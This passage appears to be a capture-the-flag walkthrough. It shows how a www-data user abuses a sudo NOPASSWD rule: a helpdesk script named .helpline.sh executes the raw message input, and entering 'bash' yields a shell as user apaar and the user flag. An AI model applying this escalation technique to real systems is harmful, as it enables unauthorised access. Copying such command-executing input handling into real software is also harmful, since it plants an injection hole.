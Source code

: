 to get the user flag i started with `sudo -l`.

```shell
www-data@ubuntu:/var/www$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh

```

we can execute a script as the user `apaar`
the content of the script:

```bash
www-data@ubuntu:/home/apaar$ cat .helpline.sh
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```

we can exploit this script very easily via typing `bash` as the message input.

```shell
www-data@ubuntu:/home/apaar$ sudo -u apaar /home/apaar/.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: asd
Hello user! I am asd,  Please enter your message: bash
ls
local.txt
whoami
apaar
```

after stabilizing the shell i got the first flag.

![image](/images/Pasted image 20221019091841.png)

## further enumeration

after that i searched for the next attack vector. finally i looked into the web directory again and found a another folder. `files`
